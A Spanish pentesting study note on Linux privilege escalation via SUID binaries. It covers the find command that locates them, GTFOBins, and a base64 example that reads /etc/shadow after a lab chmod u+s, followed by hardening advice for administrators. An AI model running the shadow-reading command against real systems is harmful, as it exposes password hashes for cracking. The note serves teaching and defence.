


# 🔐 Escalada de Privilegios mediante Binarios SUID

> [!info] Objetivo de este apunte
> Aprender a identificar y explotar binarios con permisos SUID para elevar privilegios en sistemas Linux comprometidos.

---

## 📋 Tabla de Contenidos
- [¿Qué son los binarios SUID?](#qué-son-los-binarios-suid)
- [Detección de binarios SUID](#detección-de-binarios-suid)
- [Explotación con GTFOBins](#explotación-con-gtfobins)
- [Ejemplo práctico: base64](#ejemplo-práctico-base64)
- [Consideraciones de seguridad](#consideraciones-de-seguridad)

---

## ¿Qué son los binarios SUID?

> [!note] Recordatorio
> Como se detalla en [[SUID y SGID]], el bit SUID permite a los usuarios ejecutar binarios con los permisos del propietario del archivo (normalmente root), en lugar de con los permisos del usuario que lo ejecuta.



---

## Detección de binarios SUID

> [!tip] Comando esencial
> El siguiente comando es fundamental para cualquier evaluación de seguridad o intento de escalada de privilegios:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Este comando:
- Busca en todo el sistema (`/`)
- Archivos con permiso SUID (`-perm -4000`)
- Solo archivos regulares (`-type f`)
- Oculta errores de permisos denegados (`2>/dev/null`)

> [!example] Salida típica
> ```
> /usr/bin/sudo
> /usr/bin/passwd
> /usr/bin/chfn
> /usr/bin/newgrp
> /usr/bin/gpasswd
> /usr/bin/chsh
> /usr/bin/pkexec
> /usr/bin/umount
> /usr/bin/mount
> /usr/bin/su
> /usr/bin/base64     # <-- Objetivo potencial inusual!
> /usr/lib/dbus-1.0/dbus-daemon-launch-helper
> /usr/lib/openssh/ssh-keysign
> /usr/lib/eject/dmcrypt-get-device
> ```

---

## Explotación con GTFOBins

> [!important]
> [[GTFOBins]] es un recurso esencial que lista binarios Unix que pueden ser abusados para eludir restricciones de seguridad en sistemas mal configurados.

### ¿Qué es GTFOBins?

GTFOBins es un repositorio que documenta cómo los binarios comunes de Unix pueden ser explotados para:
- Escapar de shells restringidas
- Escalar privilegios
- Transferir archivos
- Generar shells inversas
- Realizar otras tareas post-explotación

> [!warning] No son vulnerabilidades
> Los binarios listados en GTFOBins no son vulnerables per se. El problema está en la configuración incorrecta de permisos que permite abusar de su funcionalidad legítima.

---

## Ejemplo práctico: base64

### 1. Verificación de permisos actuales

Primero, verificamos los permisos actuales del binario:

```bash
which base64 | xargs ls -l
```

Salida típica:
```
-rwxr-xr-x 1 root root 35064 Aug 11 11:33 /usr/bin/base64
```

### 2. Simulación (solo para laboratorios)

> [!danger] ¡Solo para entornos controlados!
> Nunca modifiques permisos de binarios del sistema en entornos de producción.

Para fines de prueba, podríamos establecer el bit SUID:

```bash
chmod u+s $(which base64)
```

### 3. Explotación del binario SUID

Una vez que `base64` tiene el bit SUID (ya sea porque lo configuramos para pruebas o porque lo encontramos así en un sistema comprometido), podemos abusar de él para leer archivos privilegiados:

```bash
# Intento normal de leer /etc/shadow (fallará para usuarios normales)
cat /etc/shadow
# Resultado: Permission denied

# Explotando el bit SUID de base64
base64 /etc/shadow | base64 -d
# Resultado: Contenido del archivo shadow
```

#### ¿Cómo funciona?



> [!success] Resultado
> El usuario no privilegiado ahora puede leer archivos protegidos como `/etc/shadow` que contiene los hashes de contraseñas, lo que podría permitir ataques posteriores.

---

## Consideraciones de seguridad

### Para administradores de sistemas:

> [!warning] Medidas preventivas
> - Auditar regularmente los binarios con SUID: `find / -perm -4000 -type f 2>/dev/null`
> - Eliminar el bit SUID de binarios que no lo requieran: `chmod u-s /ruta/al/binario`
> - Aplicar el principio de mínimo privilegio
> - Considerar herramientas como [SUDO](https://www.sudo.ws/) para control de acceso más granular

### Para pentesting:

> [!tip] Estrategia de explotación
> 1. Identificar todos los binarios SUID
> 2. Consultar GTFOBins para cada binario encontrado
> 3. Priorizar binarios inusuales (como `base64`, que normalmente no tiene SUID)
> 4. Documentar cada vector encontrado

---

## 🔍 Herramientas relacionadas

| Herramienta | Descripción | Enlace |
|-------------|-------------|--------|
| GTFOBins | Repositorio de técnicas de abuso de binarios Unix | [gtfobins.github.io](https://gtfobins.github.io/) |
| PEASS-ng | Suite de scripts para enumeración y escalada de privilegios | [github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng) |
| LinPEAS | Herramienta para buscar posibles rutas de escalada de privilegios | Incluido en PEASS-ng |
| LSE | Linux Smart Enumeration | [github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration) |

---

> [!example] Otros binarios comúnmente explotables
> - `cp`: Copiar archivos sensibles
> - `nano`/`vim`: Editar archivos protegidos
> - `find`: Ejecutar comandos como root
> - `python`/`perl`/`ruby`: Ejecutar código con privilegios
> - `tar`: Extraer o crear archivos en ubicaciones protegidas

---

## Referencias
- [[SUID y SGID]] - Explicación detallada de estos permisos especiales
- [[GTFOBins]] - Repositorio de técnicas de abuso
- [[base64]] - Documentación sobre la herramienta base64
- [[apuntes/herramientas/herramientas]] - Más herramientas de hacking